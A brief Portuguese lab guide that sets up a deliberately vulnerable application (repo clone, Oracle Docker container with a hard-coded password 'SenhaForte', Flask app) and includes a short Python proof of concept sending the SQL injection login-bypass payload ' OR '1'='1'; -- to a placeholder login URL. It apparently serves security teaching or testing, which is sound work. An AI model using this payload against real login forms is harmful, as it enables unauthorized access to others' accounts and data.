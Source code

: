 # Clonando o Repositório
git clone https://github.com/usuario/repo-vulneravel.git
cd repo-vulneravel

# Código da PoC
# Exemplo de script Python
import requests

url = "http://example.com/login"
payload = {
    'username': "' OR '1'='1'; --",
    'password': ''
}

response = requests.post(url, data=payload)

if "Welcome" in response.text:
    print("Injeção de SQL bem-sucedida!")
else:
    print("Falha na injeção.")

# Instalação de Dependências
## Para Python
pip install -r requirements.txt

## Para Java
mvn install

# Configurar o Banco de Dados com Docker
## Baixar e Rodar o Oracle Database
docker pull container-registry.oracle.com/database/enterprise:19.3.0.0
docker run -d -it --name oracle-db -p 1521:1521 -e ORACLE_PWD=SenhaForte container-registry.oracle.com/database/enterprise:19.3.0.0

## Acessar o Banco de Dados
sqlplus sys/SenhaForte@localhost:1521/ORCLCDB as sysdba

# Executar a Aplicação Vulnerável
## Para uma aplicação em Flask (Python)
python app.py
